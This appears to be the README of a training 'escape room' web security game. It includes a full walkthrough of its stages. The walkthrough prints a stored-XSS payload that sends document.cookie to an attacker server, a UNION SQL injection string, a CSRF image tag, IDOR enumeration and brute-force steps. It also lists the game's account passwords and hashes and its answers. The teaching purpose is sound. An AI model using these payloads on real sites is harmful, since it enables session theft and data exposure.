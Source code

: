 # Cybersecurity platform
## Escape the cyberoom!

### Scenario

You are stuck in a closed room. The aim is to escape it.

There is a locked door inside the room. It is closed by an electronic system. A keyboard next to the door can be used to enter a password. Only the correct password can unlock the door and let you escape.

Several clues hidden inside the room can help you figurate the password. In particular, an electronic screen, the messages board, will display the information you need to find a clue at each step of the game.

### Implementation

The website represents the cyberoom. The door is embodied by the a password field. The screen board is represented by a messages board, containing several posts.

You can validate the clues using a validation box. When a clue is validated, it unlocks the next stage of the game.

### Enigma

> Three drunkards, Matthieu, David and Myriam drink a rhum barrel together. Matthieu would drink the barrel on his own in 1h. David would do it in 3h. Myriam would absorb it in 6h. How much time do the three drunkards need to drink the whole barrel together?

#### 1. First clue: Encryption

> Three drunkards, Matthieu, David and Myriam drink a rhum barrel together.

Clue > César :

    Uisff esvolbset, Nbuuijfv, Ebwje boe Nzsjbn esjol b sivn cbssfm uphfuifs.

César > ASCII :

    85 105 115 102 102 32 101 115 118 111 108 98 115 101 116 44 32 78 98 117 117 105 106 102 118 44 32 69 98 119 106 101 32 98 111 101 32 78 122 115 106 98 110 32 101 115 106 111 108 32 98 32 115 105 118 110 32 99 98 115 115 102 109 32 117 112 104 102 117 105 102 115 46

ASCII > Base64

    ODUgMTA1IDExNSAxMDIgMTAyIDMyIDEwMSAxMTUgMTE4IDExMSAxMDggOTggMTE1IDEwMSAxMTYgNDQgMzIgNzggOTggMTE3IDExNyAxMDUgMTA2IDEwMiAxMTggNDQgMzIgNjkgOTggMTE5IDEwNiAxMDEgMzIgOTggMTExIDEwMSAzMiA3OCAxMjIgMTE1IDEwNiA5OCAxMTAgMzIgMTAxIDExNSAxMDYgMTExIDEwOCAzMiA5OCAzMiAxMTUgMTA1IDExOCAxMTAgMzIgOTkgOTggMTE1IDExNSAxMDIgMTA5IDMyIDExNyAxMTIgMTA0IDEwMiAxMTcgMTA1IDEwMiAxMTUgNDY=

The first clue is quite simple to get. The clue is written as a comment in the HTML code. Is is converted first with Caesar encryption, then to ASCII, to base64.

To find the clue, you just need to look at the source code and do the reverse conversion.

#### 2. Second clue: XSS

> Matthieu would drink the barrel on his own in 1h.

To find this clue, you need to exploit XSS vulnerability. The website is made in such a way that is it only vulnerable to XSS during this second step.

First, you will need to check where the site is vulnerable, by trying to inject Javascript code.

A messages board has appeared for this step. These messages are public and can be seen by any user. You can post messages to help organize your ideas or contact the other users.

You have to exploit this. Try to inject in your post a HTML tag containing Javascript. For instance:

    <img src="image.gif" onerror="alert('coucou')">

By specifying an unknown source, the Javascript code will be triggered. This mean the website is vulnerable to XSS.

Once you have make sure it is, wait for the game master to check the board. He will end up executing the malicious stored Javascript code.

Now the idea is to make sure the game master gives you a valuable information: a cookie. This cookie will contain the session id. You have to steal it.

Create your own web server and put in your post in the messages board a link to this server hidding a `document.cookie`. If another user executes the code, he will unwillingly send you his cookie. There you go.

- Create web server

        python -m SimpleHTTPServer 8080
    or
        python -m SimpleHTTPServer 8080 --bind 127.0.0.1

- Create image tag containing Javascript code to send the cookie to your server

        <img src='notfound.jpg' onerror=this.src='http://localhost:8080?cookie='+document.cookie>
    or
        <img src='notfound.jpg' onerror=this.src='http://127.0.0.1:8080?cookie='+document.cookie>

- Check your server console and wait for the game master to execute the code. Once you get the cookie, use it to connect to the website as the administrator. You can do it by opening a console and writing:

        document.cookie = [cookie]

You will see that the account you stole, `alice`, is currently at stage 3. Thus, you can retrieve the second clue.



#### 3. Third clue: SQL injection

> David would do it in 3h.

The game master has now added a new feature to the board messages. A search bar can be used to find a particular message in the board using keywords.

Use this search bar to inject SQL code. You will find in the database a table `clues` which contains a single clue to validate this step. For instance the following SQL injection works:

        %' union select 1, 2, description from clues; --

#### 4. Fourth clue: CSRF

> Myriam would absorb it in 6h.

A new feature has been released for this stage: writing private messages. It is now possible to save messages visible by no one but the author.

Find a way to make Bob execute:

    cyberoom.php?make-public=true


<img src='notfound.jpg' onerror=this.src='cyberoom.php?make-public=true'>


#### 5. Insecure direct object reference

> How much time do the three drunkards need to drink the whole barrel together?

A new link is displayed.

    <a href="4979215374/50177/secret.php">My secret</a>

The page is not secured. You can guess that every user has his own secret page. Try to check what directory exists by changing the numbers in the URL.

If you test every number between 10 000 and 99 999 in `4979215374/[number]/secret.php` with an automated tool, you will end up findind the number 90448 that is working. An image containing the last clue will be displayed.

#### 6. Solve the enigma

Now you have to solve the enigma. It is a simple mathematic problem. The answer of the enigma will give you the response: `fourty`.

#### 7. Final step: Bruteforce

> Pepper never goes without its alter ego. What did you expect?

This response is the *salt*. You have to concatenate the salt coupled with a weak password to find the final password by bruteforce. The weak password has been extracted from `rockyou.txt` wordlist.

    fourtyalcoholicduck

### Accounts

- admin : NZ=3w<6Hpgb\E<9.
- alice : tm)Z5+HBks}"df{`
- bob : q-5]+x(G2(TzVr{s


admin $2y$10$ncFJWycVq.zXT6UpooJnjOQ6RHfPDWq.AcPMPGWxWmGTRDrYJfzWm

alice $2y$10$KTjpUMk62vuoUeyPOG4rtOFuloXHUk3Qg9bwDtXEFoszs0ncBsPGe

bob $2y$10$i0zyGRXXQOmbF9LduqbFhuXpDo9ydju2PbeA1sk.qgtfqyPPj3XWe

guest $2y$10$Y/3eD8zFM./1fqLzYc/Mue7X5VSZGY7KRVgE13EhqOvaGuNnv3Vmu
